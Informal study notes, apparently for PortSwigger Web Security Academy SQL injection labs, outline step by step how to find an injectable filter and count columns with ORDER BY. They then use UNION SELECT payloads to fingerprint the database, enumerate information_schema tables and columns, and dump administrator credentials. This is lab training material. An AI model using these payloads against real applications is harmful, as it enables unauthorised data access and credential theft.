 	- Determine the relevant table name within that database.
	- Determine the relevant column names within the table.
	- Find credentials for ‘administrator’.
	- Log in to the site as ‘administrator’
	- Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

   ### Lab: SQL injection attack, listing the database contents on non-Oracle databases 
  [lab url](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
  - we give help cheet-shit
  - - step two
    - Now, let’s check to see if this is where our SQLi vulnerability is by appending a single quote (‘) to the end of the filter and clicking ‘Send’ again. This is number 1 on our to do list
        - You should get a ‘500 Internal Server Error’ meaning that the server may be susceptible to a SQLi attack
- step three
    - counting column number
        - use
            - ' order by 1    
            - ' order by 2
            - ' order by 3
- step four
    - let’s check to make sure the data types are ‘text’.
        - union select "salar", "amir"--
- step five
    - Crafting Our Payloads
        - step one
            - give version and detecting database type
                - microsoft
                    - `' UNION SELECT @@version,'James'--`
                    - ' UNION SELECT @@version,NULL--
                - PostgreSQL ✅
                    - ' UNION SELECT version(),'Marduk'--
                    - '+UNION+SELECT+version(),'Marduk'-
	                    - ok Continue
                        - give all table
                            - SELECT * FROM information_schema.tables
                            - ' UNION SELECT table_name,'Marduk' FROM information_schema.tables--  '+UNION+SELECT+table_name,'Marduk'+FROM+information_schema.tables--
                        - give all columns in the one table
                            - ' UNION SELECT column_name,'Marduk' FROM information_schema.columns WHERE table_name = 'USERS_VBHDSO'--
                                - user an passsword in the this table
                                    - USERNAME_LEQYSX
                                    - PASSWORD_EOUQFB
                        - give pass and user
                            - ' UNION SELECT USERNAME_LEQYSX, PASSWORD_EOUQFB FROM users_zqdiez--
                        - copy username and password and login in the administrator
## Lab: SQL injection attack, listing the database contents on Oracle
- like above lab just different database type
- [[Write-Ups#labs]] lab 3
# UNION ATTACKS
- When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database
- #### Determining the number of columns required
	- ##### method one 